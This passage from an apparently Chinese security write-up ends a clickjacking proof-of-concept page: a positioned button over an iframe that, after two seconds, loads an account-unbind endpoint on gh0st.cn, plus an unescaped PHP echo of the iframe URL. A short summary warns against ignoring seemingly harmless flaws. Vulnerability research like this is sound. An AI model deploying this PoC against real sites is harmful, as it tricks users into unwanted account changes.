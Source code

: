 ```
    /*控制不透明度的属性，兼容各大浏览器*/
`}`
.btn `{`
    position: fixed;
    width: 70px;
    height: 22px;
    left: 167px;
    right: 0;
    display:block;
    top: 295px;
`}` 
&lt;/style&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;div class="testframe"&gt;
    &lt;input type="button" class="btn" value="Click"&gt;
    &lt;iframe id="test0" src="&lt;?php echo $url;?&gt;"&gt;&lt;/iframe&gt;
&lt;/div&gt;
&lt;script&gt;
function loadsrc()`{`
    document.getElementById("test0").src="https://gh0st.cn/usercenter/ubind";
`}`
setTimeout("loadsrc()",2000);
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

简单的说明下这个PoC的用处：

[![](https://p5.ssl.qhimg.com/t01b2dc975036e881c8.png)](https://p5.ssl.qhimg.com/t01b2dc975036e881c8.png)



## 总结

可能把每一项单独的拎出来会发现这并没有缺陷，但是一旦参与到了业务逻辑中，就一定会存在一定的问题。

[![](https://p0.ssl.qhimg.com/t0159280b20f8fe2642.png)](https://p0.ssl.qhimg.com/t0159280b20f8fe2642.png)

不要忽略一个看似没危害的漏洞甚至一个缺陷，因为你永远不知道它能发挥的巨大危害。
